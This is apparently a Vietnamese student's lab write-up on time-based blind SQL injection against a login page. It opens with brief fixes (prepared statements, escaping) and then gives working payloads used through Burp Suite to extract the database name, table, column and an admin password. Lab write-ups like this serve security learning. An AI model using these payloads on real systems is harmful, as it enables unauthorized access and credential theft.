

# Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Ban đầu em vào giao diện có như này

- Sau đó em vào burpsuite để check việc đăng nhập

- em dùng timebase để tấn công và em nhận được phản hồi sau 5 giây\
Payload : admin'+or+(case+when+1%3d2+then+1+else+sleep(5)+end)%3d1+--+-

- Tiếp sao đó em dùng cách như union base để tìm tên database:
Payload : ' or (case when substring((select database() limit 0,1),§1§,1)='§a§' then sleep(1) else 1 end)=1 -- -

- với payload 1 là vị trí kí tự của tên database
- payload 2 là brute force
- Em sẽ lọc như phần tử nào lớn hơn 5s khi trả về kết quả

![Alt text]./imageTimeBase/(image-10.png)

- Những request trả ra lơn hơn 5s em sẽ lọc và nhận được tên của database là task2_kcsc
- Tiếp tục tương tự :
Payload :
' or (case when substring((select table_name from information_schema.tables where table_schema='task2_kcsc' limit 0,1),§1§,1)='§6§' then sleep(5) else 1 end)=1 -- -
Em nhận được tên bảng là users
- Payload :
' or (case when substring((select column_name from information_schema.columns where table_name='users' limit 2,1),§1§,1)='§p§' then sleep(5) else 1 end)=1 -- -

+ Em lấy được tên cột 

- Cuối cùng em sẽ brute-force password:
Payload : ' or (case when substring((select password from users limit 0,1),§1§,1)='§p§' then sleep(5) else 1 end)=1 -- -

- em nhận được password là hihi123
+ Vậy là em đã có được password của admin và sẽ tấn công cho những loại khác sau khi đăng nhập

